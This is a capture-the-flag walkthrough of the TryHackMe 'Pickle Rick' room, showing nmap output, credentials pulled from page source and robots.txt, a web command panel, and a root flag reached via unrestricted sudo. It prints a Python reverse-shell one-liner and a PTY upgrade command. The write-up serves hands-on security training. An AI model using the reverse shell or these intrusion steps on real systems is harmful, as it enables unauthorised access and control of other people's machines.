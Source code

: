 # Picke Rick

### A Rick and Morty CTF. Help turn Rick back into a human!

### Pickle Rick is a Rick and Morty themed tryhackme room where we exploit a webserver to find 3 ingredients or flags.

## Questions :

1. What is the first ingredient Rick needs?
2. Whats the second ingredient Rick needs?
3. Whats the final ingredient Rick needs?

## Enumeration

### NMAP 

> nmap -sS -sC -sV -A -O -vv BOX_IP

#### output

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-06 19:59 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
Initiating Ping Scan at 19:59
Scanning 10.10.32.22 [4 ports]
Completed Ping Scan at 19:59, 0.79s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:59
Completed Parallel DNS resolution of 1 host. at 19:59, 0.01s elapsed
Initiating SYN Stealth Scan at 19:59
Scanning 10.10.32.22 [1000 ports]
Discovered open port 80/tcp on 10.10.32.22
Discovered open port 22/tcp on 10.10.32.22
Completed SYN Stealth Scan at 19:59, 4.94s elapsed (1000 total ports)
Initiating Service scan at 19:59
Scanning 2 services on 10.10.32.22
Completed Service scan at 19:59, 7.52s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.32.22
Retrying OS detection (try #2) against 10.10.32.22
Retrying OS detection (try #3) against 10.10.32.22
Retrying OS detection (try #4) against 10.10.32.22
Retrying OS detection (try #5) against 10.10.32.22
Initiating Traceroute at 20:00
Completed Traceroute at 20:00, 3.02s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 20:00
Completed Parallel DNS resolution of 2 hosts. at 20:00, 0.01s elapsed
NSE: Script scanning 10.10.32.22.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 20.63s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 3.01s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Nmap scan report for 10.10.32.22
Host is up, received reset ttl 61 (0.75s latency).
Scanned at 2020-10-06 19:59:18 BST for 70s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:16:72:a6:42:80:aa:21:3f:9e:2a:76:4c:bc:45:0d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDibc1nVIGXaLx8nF5hflDtQi7KVayIQjoV/97QvFHpe67phA9ozRb+o0Azrp3UBxc6zlGDJiPRPdgXZUL53Zygvip9Tj/8GYucBA1yzcN5gtWfR7cVG/vZo/ToDD2bTiVbMy1fW7zWa9Le9VEytFnsBFOk0ePEn5rI7wLuZ+HHaVTJegtq6KIVw9eQUCxTqfjEvFxCyJMSbwPXWdURGwVYOW3VVpU8awDkklUZRQ/ElsKGJLLF+CjtQ3/+aT9VeWKIP8n/k+ymFL0zvkygEGdMaUOFBiaZd8FAAiBAbHXNGg2Scsnmid8V9sXS0tyN4OuItZ7Xc26eKmlsCzDkJlJJ
|   256 38:e1:90:b4:69:a0:49:f8:1d:cb:d5:1a:79:22:a2:b1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGo31VvNkXrpUtTcaSzV68TxybntTXNKXfLV7uueau4r5ROiko7CqYXSBBbcKovi06b+fPCIxdnu84ZHNrMK41Q=
|   256 a0:48:4b:8f:87:64:67:ca:d3:d3:61:3a:b2:80:f3:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlvtA3D1u0/IPcguHsofaDoMS4J2/VyFUsc5Ko+hKtM
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/6%OT=22%CT=1%CU=34655%PV=Y%DS=4%DC=T%G=Y%TM=5F7CBEC
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Uptime guess: 0.006 days (since Tue Oct  6 19:51:51 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   491.98 ms 10.4.0.1
2   ... 3
4   752.26 ms 10.10.32.22

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.87 seconds
           Raw packets sent: 1131 (53.730KB) | Rcvd: 1083 (46.818KB)
```

we have two open ports, 20 (ssh) and 80 (apache2 httpd)

## Site

![image](https://user-images.githubusercontent.com/53917092/95249981-e118a900-07ef-11eb-8a7e-cbdd288c1cb3.png)

### Source Code

![image](https://user-images.githubusercontent.com/53917092/95249935-d0683300-07ef-11eb-8e78-d666c56d47fc.png)

> Username: R1ckRul3s

###  find out interesting directories and files

I used dirbuster

![image](https://user-images.githubusercontent.com/53917092/95251000-44efa180-07f1-11eb-9d38-df6acd09fb4a.png)

![image](https://user-images.githubusercontent.com/53917092/95252462-63ef3300-07f3-11eb-8681-28b0a6ea917f.png)


#### robots.txt 

![image](https://user-images.githubusercontent.com/53917092/95252646-a4e74780-07f3-11eb-8898-a829866a4218.png)

(a string like a password???)

### Login

trying to login with User:R1ckRul3s and Password:Wubbalubbadubdub in /login.php

![image](https://user-images.githubusercontent.com/53917092/95253093-466e9900-07f4-11eb-89b8-cf9c15df7677.png)

![image](https://user-images.githubusercontent.com/53917092/95253107-4cfd1080-07f4-11eb-9bca-459a05af45f4.png)

#### Success

### RCE

on this panel we were able to execute commands on the system

![image](https://user-images.githubusercontent.com/53917092/95253253-85045380-07f4-11eb-9ebd-1a4f1dededdf.png)

then let's try a reverse shell from that

for this we will use the python, so we have to know where it is (and if it exists)

![image](https://user-images.githubusercontent.com/53917092/95253426-b9780f80-07f4-11eb-9a18-c8905ac8b69d.png)

all right, let's run the reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

(changing the ip address for my thm-vpn IP)

### Reverse Shell

![image](https://user-images.githubusercontent.com/53917092/95253810-55098000-07f5-11eb-994a-3c6b88ee9c85.png)

#### Shell to TTY

> python3 -c "import pty; pty.spawn('/bin/bash')"

![image](https://user-images.githubusercontent.com/53917092/95254413-3f488a80-07f6-11eb-9a0d-9b3ae8d00ca3.png)

### answering the first question

> cat Sup3rS3cretPickl3Ingred.txt

![image](https://user-images.githubusercontent.com/53917092/95254695-a7976c00-07f6-11eb-9be7-a3e4041c6b1d.png)

### walking to the second question

![image](https://user-images.githubusercontent.com/53917092/95254893-f8a76000-07f6-11eb-9793-c4acdad204f9.png)

### answering the second question

![image](https://user-images.githubusercontent.com/53917092/95255082-402dec00-07f7-11eb-8d45-bb296536341f.png)

### walking to the second root

looking at the commands that the user can run

> sudo -l

![image](https://user-images.githubusercontent.com/53917092/95255409-b03c7200-07f7-11eb-90f2-b852d6f149dc.png)


EASY!!!!!

We can run ANY command as root without password :O

## Root flag (3rd question)

![image](https://user-images.githubusercontent.com/53917092/95255573-fdb8df00-07f7-11eb-9447-99a43927e285.png)
